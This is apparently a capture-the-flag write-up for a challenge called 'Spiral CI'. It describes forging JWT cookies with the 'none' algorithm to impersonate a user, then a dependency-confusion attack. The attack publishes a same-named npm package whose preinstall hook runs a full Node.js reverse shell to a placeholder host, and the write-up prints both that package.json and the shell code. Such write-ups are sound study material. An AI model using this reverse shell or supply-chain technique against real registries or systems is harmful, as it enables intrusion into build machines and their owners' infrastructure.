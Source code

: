 ### Spiral CI
---
### Description

![img/1.png](img/1.png "img_1")

The application only have login, there's not much feature in this application.

![img/2.png](img/2.png "img_2")

The first thought i was doing is brute forcing the login. But I didn't found anything.

And then, I realize the index page will automatically generating a JWT cookies. So, the first thing i do if I found JWT is attempt to check is the application accepting a `none` algorithm and keep the original signature.

I am using `jwt_tool` to modify the algorithm

attempt to modify algorithm to `none` and user_id to `0`
![img/3.png](img/3.png "img_3")
![img/4.png](img/4.png "img_4")

Lets set our cookies to the result of generated JWT.

![img/5.png](img/5.png "img_5")

Great, We got a response showing that `user_id:0` didnt exist. It seems the application accepting `none` algorithm

let's check another `user_id` 

`user_id:1`
![img/6.png](img/6.png "img_6")
![img/7.png](img/7.png "img_7")

Well, the response is showing that the user is `disabled`. let's check another user

`user_id:2`
![img/8.png](img/8.png "img_8")
![img/9.png](img/9.png "img_9")

Great!, we got a valid user_id, let's download the ([projects](dl/))

nothing suspicious. But, in `calculator` they're using a private dependency.

([dl/calculator/package.json](dl/calculator/package.json))
```
{
  "name": "calculator",
  "version": "1.0.0",
  "description": "Calculator test using a JS module",
  "main": "app.js",
  "scripts": {
    "test": "node calc.test.js"
  },
  "author": "congon4tor",
  "license": "ISC",
  "dependencies": {
    "calc_gl2xiahl1g": "^1.0.0",
    "prompt-sync": "^4.2.0"
  }
}
```

I am pretty sure `calc_gl2xiahl1g` dependency is not a common name for public dependency.

The first thought i have is it was dependency confusion.

init the packages using `$ npm init`
![img/10.png](img/10.png "img_10")

add `"preinstall": "node calc.test.js"` inside `scripts` object

([n/package.json](n/package.json))
```
{
  "name": "calc_gl2xiahl1g",
  "version": "1.0.1",
  "description": "nyxsorcerer",
  "main": "calc.test.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "preinstall": "node calc.test.js"
  },
  "author": "nyxsorcerer",
  "license": "ISC"
}
```

Create `calc.test.js` so our script will be executed first when our packages is downloaded.

([n/calc.test.js](n/calc.test.js))
```
var net = require('net');
var spawn = require('child_process').spawn;
HOST="ip_addr";
PORT="port";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { 
    String.prototype.contains = function(it) { 
        return this.indexOf(it) != -1; 
    }; 
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit', function(code,signal){
            client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

let's publish our package to npm `$ npm publish`
![img/12.png](img/12.png "img_12")

Create a listening service and hit the `Launch Test` button

![img/13.png](img/13.png "img_13")

Wait a couple seconds and our listening service got a new connection

![img/14.png](img/14.png "img_14")

Great! we got the FLAG
